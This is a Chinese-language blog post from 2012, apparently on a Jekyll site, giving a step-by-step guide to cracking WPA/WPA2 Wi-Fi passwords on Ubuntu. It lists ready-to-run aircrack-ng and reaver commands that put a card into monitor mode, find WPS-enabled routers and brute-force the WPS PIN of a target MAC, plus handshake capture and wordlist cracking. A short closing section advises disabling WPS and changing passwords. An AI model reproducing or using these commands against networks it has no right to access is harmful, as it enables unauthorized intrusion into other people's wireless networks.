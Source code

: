 ```yaml
---
layout: post
category : all
tagline: "Supporting tagline"
tags: [thing, things]
title: "无线WIFI WPA/WPA2密码破解 for ubuntu"
date: 2012-09-13
---
```

前期工作    
\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=    
安装reaver 1.4：    
下载：    
<http://code.google.com/p/reaver\-wps/downloads/list>    
安装：    
./configure    
make    
sudo make install    
    
安装aircrack\-ng：    
sudo apt\-get install aircrack\-ng    
    
    
破解操作    
\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=    
sudo airmon\-ng start wlan0 (启动无线网卡的监控模式)(启动监控模式后接口是mon0)    
sudo wash \-i mon0 \-\-scan (搜索开启WPS的AP)    
sudo reaver \-i mon0 \-a \-S \-N \-d 0 \-t 5 \-vv \-b MAC \-c Channel (进行pin破解)    
参数简要说明：    
\-d 间隔时间    
\-vv 详细信息    
\-v 简单信息    
\-a 自动接上原来的进度    
\-S 优化PIN码    
\-N 关闭NACK    
\-t 超时 时间    
\-c 指定信道    
\-p 指定pin码    
\-b 目标MAC    
sudo airmon\-ng stop mon0 (破解完成后关闭监控模式)    
    
    
其他命令    
\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=    
sudo airodump\-ng mon0    
查看无线AP    
aircrack\-ng \-w 字典文件名 握手包文件名    
跑包    
sudo airodump\-ng mon0 \-d MAC \-c  Channel    
调天线    
    
    
破解原理    
\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=    
WPA/WPA2加密理论上不能破解，而reaver的pin破解是针对无线路由的WPS漏洞。    
WPS功能是无线路由上一串8位数字组合的pin码，用于快速连接WIFI。    
而8位数字的组合分为前四位和后三位，加一位校验码。    
所以前四位组合10000个，后三位组合1000个，共11000个pin码。    
通过逐一尝试得出前四位后，再尝试后三位，最后得到正确ping码，并连接取得WPA/WPA2密码。    
    
    
反破解建议    
\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=    
路由的WPS功能是可以关闭的，登录路由器关闭此功能即可。    
建议更改路由器的默认登录密码，因为除了pin破解外还有抓包破解等其他方法。    
当发现无线密码可能被破解后，迅速更改无线密码。